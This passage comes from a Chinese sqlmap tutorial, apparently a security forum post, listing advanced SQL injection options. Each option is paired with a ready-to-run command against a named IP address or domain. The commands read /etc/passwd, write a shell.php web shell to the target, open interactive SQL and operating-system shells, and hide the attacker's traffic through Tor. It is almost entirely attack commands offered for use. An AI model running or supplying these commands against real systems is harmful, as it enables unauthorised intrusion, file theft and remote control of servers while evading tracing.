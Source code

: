 > **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —purge-output**

1. ##### —smart ： 当有大量检测目标时，只选择基于错误的检测结果

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —smart**

## 十一.高级注入参数

1. ##### —file-read：文件系统访问

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —file-read=”/etc/passwd”**

1. ##### —file-write、—file-dest ：写文件到目标位置

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —file-write=”shell.php” —file-dest “/tmp/shell.php”**

1. ##### —sql-shell ： 进入交互式mysql窗口

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —sql-shell**

1. ##### —os-shell ： 进入命令行窗口

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —os-shell**

1. ##### 使用Tor代理

> **sqlmap.py -u http://navisec.it/123.asp?id=1 —tor -tor-type=SOCKS5 —tor-port=9050 —check-tor**



原文地址https://bbs.zkaq.cn/t/5637.html